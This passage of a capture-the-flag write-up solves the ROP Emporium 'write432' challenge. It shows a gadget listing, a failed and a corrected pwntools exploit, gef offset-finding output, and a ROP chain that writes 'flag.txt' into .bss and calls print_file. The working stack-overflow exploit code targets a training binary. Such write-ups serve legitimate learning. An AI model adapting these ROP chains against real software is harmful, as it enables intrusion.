0x0804853e : les edx, ptr [eax] ; nop ; leave ; ret
0x080484e7 : mov al, byte ptr [0xc9010804] ; ret
0x0804846d : mov al, byte ptr [0xd0ff0804] ; add esp, 0x10 ; leave ; ret
0x080484ba : mov al, byte ptr [0xd2ff0804] ; add esp, 0x10 ; leave ; ret
0x080484e4 : mov byte ptr [0x804a020], 1 ; leave ; ret
0x08048543 : mov dword ptr [edi], ebp ; ret
0x08048501 : mov ebp, esp ; pop ebp ; jmp 0x8048490
0x08048381 : mov ebx, 0x81000000 ; ret
0x08048423 : mov ebx, dword ptr [esp] ; ret
0x0804847a : mov esp, 0x27 ; add bl, dh ; ret
0x08048540 : nop ; leave ; ret
0x0804843f : nop ; mov ebx, dword ptr [esp] ; ret
0x0804843d : nop ; nop ; mov ebx, dword ptr [esp] ; ret
0x0804843b : nop ; nop ; nop ; mov ebx, dword ptr [esp] ; ret
0x08048428 : nop ; nop ; nop ; nop ; nop ; repz ret
0x0804842a : nop ; nop ; nop ; nop ; repz ret
0x0804842c : nop ; nop ; nop ; repz ret
0x0804842e : nop ; nop ; repz ret
0x0804842f : nop ; repz ret
0x080485a7 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x080483b2 : or al, 0xa0 ; add al, 8 ; push 0 ; jmp 0x80483a0
0x0804837f : or al, ch ; mov ebx, 0x81000000 ; ret
0x080483c7 : or byte ptr [eax], al ; add byte ptr [eax], al ; jmp 0x80483a0
0x080484e9 : or byte ptr [ecx], al ; leave ; ret
0x08048503 : pop ebp ; jmp 0x8048490
0x08048525 : pop ebp ; lea esp, [ecx - 4] ; ret
0x080485ab : pop ebp ; ret
0x080485a8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804839d : pop ebx ; ret
0x08048524 : pop ecx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x080485aa : pop edi ; pop ebp ; ret
0x080485a9 : pop esi ; pop edi ; pop ebp ; ret
0x08048527 : popal ; cld ; ret
0x080483b6 : push 0 ; jmp 0x80483a0
0x080483d6 : push 0x10 ; jmp 0x80483a0
0x0804846b : push 0x804a020 ; call eax
0x080484b8 : push 0x804a020 ; call edx
0x080483c6 : push 8 ; jmp 0x80483a0
0x08048708 : push cs ; adc al, 0x41 ; ret
0x08048705 : push cs ; and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret
0x080481e3 : push cs ; jmp 0x80481b9
0x08048702 : push cs ; xor byte ptr [ebp + 0xe], cl ; and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret
0x0804840f : push eax ; in eax, 0xff ; call dword ptr [eax + 0x51]
0x080484b7 : push eax ; push 0x804a020 ; call edx
0x08048500 : push ebp ; mov ebp, esp ; pop ebp ; jmp 0x8048490
0x08048421 : push esp ; mov ebx, dword ptr [esp] ; ret
0x08048430 : repz ret
0x08048386 : ret
0x0804849e : ret 0xeac1
0x08048403 : sbb al, 0 ; add byte ptr [ebp - 0x1a4f7d], cl ; call dword ptr [eax - 0x73]
0x08048424 : sbb al, 0x24 ; ret
0x080484b4 : sub esp, 0x10 ; push eax ; push 0x804a020 ; call edx
0x08048468 : sub esp, 0x14 ; push 0x804a020 ; call eax
0x08048478 : test byte ptr [ebp + 0x27bc], 0 ; add bl, dh ; ret
0x08048703 : xor byte ptr [ebp + 0xe], cl ; and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret

Unique gadgets found: 127
```

These two gadgets seem to be the equivalent  32 bit versions of the ones we found in the 64 bit.  

```
0x080485aa : pop edi ; pop ebp ; ret
0x08048543 : mov dword ptr [edi], ebp ; ret
```

Here's my first attempt which failed.

```python
from pwn import *

p = process('./write432')
e = ELF('./write432')

pop_edi_ebp_ret = 0x080485AA
mov_edi_ebp_ret = 0x08048543

payload = b'A' * 40
payload += p32(pop_edi_ebp_ret)
payload += p32(e.bss())
payload += b'flag.txt'
payload += p32(mov_edi_ebp_ret)
payload += p32(e.bss())
payload += p32(e.symbols['print_file'])

p.send(payload)
p.interactive()
```

I couldn't get the flag for some reason...

```
$ python solve2.py 
[+] Starting local process './write432': pid 30092
[*] '/home/hwkim301/rop_emporium/write432/write432'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    RUNPATH:    b'.'
    Stripped:   No
[*] Switching to interactive mode
write4 by ROP Emporium
x86

Go ahead and give me the input already!

> Thank you!
[*] Got EOF while reading in interactive
$ 
[*] Process './write432' stopped with exit code -11 (SIGSEGV) (pid 30092)
[*] Got EOF while sending in interactive
```

Here's the correct code. 

```python
from pwn import *

p = process('./write432')
e = ELF('./write432')
r = ROP(e)

pop_edi_ebp_ret = 0x080485AA
mov_edi_ebp_ret = 0x08048543

payload = b'A' * 44
payload += p32(pop_edi_ebp_ret)
payload += p32(e.bss())
payload += b'flag'
payload += p32(mov_edi_ebp_ret)

payload += p32(pop_edi_ebp_ret)
payload += p32(e.bss() + 4)
payload += b'.txt'
payload += p32(mov_edi_ebp_ret)

payload += p32(e.symbols['print_file'])
payload += p32(r.find_gadget(['ret']).address)
payload += p32(e.bss())

p.send(payload)
p.interactive()
```

I'll point out a couple of differences from the previous code and this one. 

First, although the buffer is `36` bytes, the offset to the return address is `44` instead of `40`.

```python 
payload = b'A' * 40 (x)
payload = b'A' * 44 (o)
```

If you have `gef` installed, `gef` can create a [de-bruijn](https://en.wikipedia.org/wiki/De_Bruijn_sequence) sequence. 

The `de-bruijn` sequence sounds very daunting, but it's just a random sequence that will tell you the exact offset to overwrite the return address.

You can use [pattern create](https://hugsy.github.io/gef/commands/pattern/) to create the `de-bruijn` sequence.  

```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef0'
```

Run the binary with `r` and paste the `de-bruijn` sequence as the input. 

```
This GDB supports auto-downloading debuginfo from the following URLs:
  <https://debuginfod.ubuntu.com>
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0xb       
$ebx   : 0x6161616a ("jaaa"?)
$ecx   : 0xf7f958a0  →  0x00000000
$edx   : 0x0       
$esp   : 0xffffce80  →  "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
$ebp   : 0x6161616b ("kaaa"?)
$esi   : 0x08048550  →  <__libc_csu_init+0000> push ebp
$edi   : 0xf7ffcb60  →  0x00000000
$eip   : 0x6161616c ("laaa"?)
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
───────────────────────────────────────────────────────────────────── stack ────
0xffffce80│+0x0000: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"	 ← $esp
0xffffce84│+0x0004: "naaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa\n[...]"
0xffffce88│+0x0008: 0x6161616f
0xffffce8c│+0x000c: 0x61616170
0xffffce90│+0x0010: 0x61616171
0xffffce94│+0x0014: 0x61616172
0xffffce98│+0x0018: 0x61616173
0xffffce9c│+0x001c: 0x61616174
─────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6161616c
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "write432", stopped 0x6161616c in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────── trace ────
────────────────────────────────────────────────────────────────────────────────
```

It displays a lot of stuff, but the only informention we are interested is the instruction pointer.

```
$eip   : 0x6161616c ("laaa"?)
```

It's been nicely overwritten by a substring of the `de-bruijn` sequence.

By using `pattern search`, `gef` will show you the actual offset to overwrite the return address.

```
gef➤  pattern search $eip
[+] Searching for '6c616161'/'6161616c' with period=4
[+] Found at offset 44 (little-endian search) likely
```

The lesson from calculating the actual offset to the return address was that sending dummy `4` bytes the buffer might not always be correct if GCC optimizes the stack. 

So always double check in order to calculate the offset precisely. 

Second, we can't actually pass `flag.txt` in one instruction. 

```python 
payload += p32(pop_edi_ebp_ret)
payload += p32(e.bss())
payload += b'flag'
payload += p32(mov_edi_ebp_ret)

payload += p32(pop_edi_ebp_ret)
payload += p32(e.bss() + 4)
payload += b'.txt'
payload += p32(mov_edi_ebp_ret)
```

We can only pass 4 characters/bytes because this is a `32` bit binary. 

In order to store `flag.txt` into the `bss`, we'll need to split the flag into two parts `flag` and `.txt`.

Also be aware when storing `.txt` that you'll need to save `e.bss() + 4`.

This is necessary beacuse the first 4 bytes of the `bss` stores `flag`.

The latter 4 bytes will save `.txt`. 

The last part is the most confusing part. 

```python 
payload += p32(e.symbols['print_file'])
payload += p32(rop.find_gadget(['ret']).address)
payload += p32(e.bss())
```

Unlike x86-64, x86 searches for arguments on the stack. 

I've already discussed why you'll need to pass the address of the function first in your pwnools code [here](https://github.com/hwkim301/ROP-Emporium/blob/master/callme/callme.md#callme32).

Here's the version using the rop class from pwntools. 

The rop class couldn't automatically find the `mov_edi_ebp` gadget. 

I recommend manually crafting the ropchain, especially for 32 bit binaries.

```python 
from pwn import *

p = process('./write432')
e = ELF('./write432')
r = ROP(e)

pop_edi_ebp_ret = 0x080485AA
mov_edi_ebp_ret = 0x08048543

r.raw(b'A' * 44)
r.raw(pop_edi_ebp_ret)
r.raw(e.bss())
r.raw(b'flag')
r.raw(mov_edi_ebp_ret)

r.raw(pop_edi_ebp_ret)
r.raw(e.bss() + 4)
r.raw(b'.txt')
r.raw(mov_edi_ebp_ret)

r.raw(e.symbols['print_file'])
r.raw(r.find_gadget(['ret']).address)
r.raw(e.bss())

p.send(r.chain())
p.interactive()
```